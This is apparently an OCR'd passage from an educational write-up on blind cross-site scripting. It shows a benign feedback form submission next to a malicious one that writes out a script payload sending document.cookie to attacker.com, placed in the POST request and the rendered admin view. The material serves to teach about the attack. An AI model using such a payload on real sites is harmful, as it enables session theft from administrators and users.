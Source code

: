 > <hr>

> **Blind Cross-site Scripting**<br>
> Blind XSS occurs when a malicious payload is ***stored on the server*** and executed later in a **different context, such as an admin viewing the data**, often through backend systems.<br>
> <br>
> **Expected Behavior:**
> ```html
> I like this website.
> ```
> 
> ```html
> 
> <form action="/submit-feedback" method="POST">
>     <label for="feedback">Your Feedback:</label>
>     <textarea id="feedback" name="feedback"></textarea>  // Feedback input
>     <button type="submit">Submit</button>
> </form>
> ```
> 
> ```html
> POST /submit-feedback HTTP/1.1
> Host: vulnerable-site.com
> Content-Type: application/x-www-form-urlencoded
> 
> feedback=I+like+this+website.
> ```
> 
> ```html
> <div>
>     <h3>User Feedback:</h3>
>     <p>I like this website.</p>
> </div>
> ```
> 
> **Unexpected Malicious Behavior:**
> ```js
> <script>
>  fetch('https://attacker.com/steal?cookie=' + document.cookie);
> </script>
> ```
> 
> ```html
> 
> <form action="/submit-feedback" method="POST">
>     <label for="feedback">Your Feedback:</label>
>     <textarea id="feedback" name="feedback"></textarea>  // Malicious Script
>     <button type="submit">Submit</button>
> </form>
> ```
> 
> ```html
> POST /submit-feedback HTTP/1.1
> Host: vulnerable-site.com
> Content-Type: application/x-www-form-urlencoded
> 
> feedback=<script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script>
> ```
> 
> ```html
> <div>
>     <h3>User Feedback:</h3>
>     <p><script>fetch('https://attacker.com/steal?cookie=' + document.cookie);</script></p>
> </div>